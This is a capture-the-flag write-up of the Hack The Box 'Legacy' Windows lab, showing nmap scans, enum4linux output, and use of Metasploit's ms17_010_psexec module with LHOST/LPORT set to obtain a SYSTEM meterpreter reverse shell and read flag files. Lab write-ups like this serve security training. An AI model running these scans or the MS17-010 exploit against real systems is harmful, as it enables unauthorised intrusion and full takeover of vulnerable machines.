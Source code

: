 # Legacy Write-Up (English Version)
This is my write-up about **Legacy** which is an active Windows machine on **Hack The Box** having the IP Address `10.10.10.4`.

![[img/legacy-card.png]]

## Target Enumeration

### Nmap Initial Scan
---

I first started by doing my usual type of `Nmap` scan, which is a SYN scan, scanning for service version and running the default `NSE script` of `Nmap` 

Note : SYN scan require you to perform the command as `root`

```
 sudo nmap -sSVC -p- 10.10.10.4 -oA nmap/nmap_initial_scan.log
```

![[img/nmap-scan.png]]

<br>

### Nmap Vuln Scan
---

After the scan result, we can see that we only have ports open on some SMB services from windows. So I decided to run a vulnerability scan with `Nmap` to see if the SMB services are exploitable.

```
sudo nmap -script vuln -p- 10.10.10.4 -oA nmap/nmap_vuln_scan.log
```

![[img/nmap-vuln.png]]

We can see that the SMB ports seems to be vulnerable to `ms17-010`, which is good to know so let keep this in mind.

<br>

### Enum4linux
---

When I'm dealing with SMB shares, I usually like run tool like `enum4linux` which can enumerate all the share on a given host and can also do stuff like gathering password policy, enumerate username, etc...

```
┌──(op㉿kali)-[~/htb/Legacy]
└─$ enum4linux -A 10.10.10.4
Unknown option: A
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Sep  7 19:27:45 2021
...
 ================================================== 
|    Enumerating Workgroup/Domain on 10.10.10.4    |
 ================================================== 
[+] Got domain/workgroup name: HTB

 ========================================== 
|    Nbtstat Information for 10.10.10.4    |
 ========================================== 
Looking up status of 10.10.10.4
	LEGACY          <00> -         B <ACTIVE>  Workstation Service
	HTB             <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	LEGACY          <20> -         B <ACTIVE>  File Server Service
	HTB             <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
	HTB             <1d> -         B <ACTIVE>  Master Browser
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

	MAC Address = 00-50-56-B9-26-64

...

 ===================================================================== 
|    Users on 10.10.10.4 via RID cycling (RIDS: 500-550,1000-1050)    |
 ===================================================================== 
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.

 =========================================== 
|    Getting printer info for 10.10.10.4    |
 =========================================== 
No printers returned.


enum4linux complete on Tue Sep  7 19:27:57 2021
```

We got two shares that we can possibly log in to with `anonymous` account, so let's try that.

<br>

## Abusing SMB shares
---

That was good to check, but unfortunately I can't seem to be able to login, the connection closed right after it succeed logging is as `anonymous`

![[img/smb-anonymous.png]]

<br>

## Metasploit 

### Msfconsole
---

So since we can't access the share manually, let's check for `ms17-010` in `msfconsole`

```
msfconsole
```

![[img/msfconsole.png]]

Here we want to search for `ms17-010` vulnerability, so we only need to ask our good friend `Metasploit`.

```
msf6 > search ms17-010
```

![[img/search-exploit.png]]

And we can see four results coming up, for this case I will take the second one, since it is not EternalBlue which often fails. We can choose the exploit by typing this in `msfconsole` prompt: 

```
msf6 > use 1
```

We can also type `options` to see the list of options that we can edit in our exploit before sending it to the target machine. In our case we only need to modify three variables: 
 - `LHOST`
 -  `LPORT` 
 -  `RHOSTS`

So let's set the three variables and send the exploit to our target.

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.4
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST [YOUR_IP]
msf6 exploit(windows/smb/ms17_010_psexec) > set LPORT [YOUR_PORT]
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```

And we got ourselves a sweet `meterpreter` shell. We can type `getuid` to know which user we are. As we can see here, we are already `NT AUTHORITY/SYSTEM`.

![[img/meterpreter.png]]

<br>

### Meterpreter Session
---

So let's spawn an OS shell on the target and search for both `root.txt` and `user.txt`.
To do that just go to the root of `C:\` and type the following command :

```
dir /s/b [YOUR_FILE]
```

![[img/proof.png]]

Only need to gather the flag within the files, and we are now done with this box that we have just owned.